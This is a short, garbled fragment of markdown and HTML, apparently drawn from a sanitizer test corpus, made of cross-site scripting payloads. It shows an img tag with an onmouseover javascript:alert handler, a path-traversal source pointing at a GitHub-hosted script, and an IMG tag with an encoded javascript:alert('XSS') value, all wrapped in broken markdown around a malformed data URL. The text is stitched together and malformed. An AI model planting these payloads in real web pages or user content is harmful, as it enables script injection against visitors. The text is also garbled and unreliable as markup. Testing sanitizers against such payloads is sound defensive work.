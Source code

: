 ![
%0a
<img src="../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" alt="%08javascript:alert(1)" onmouseover="javascript:alert(1)" style="background-image: url('');"/>

<IMG SRC= color=javascript%3aalert(&quot;XSS&quot;) >
  
](()
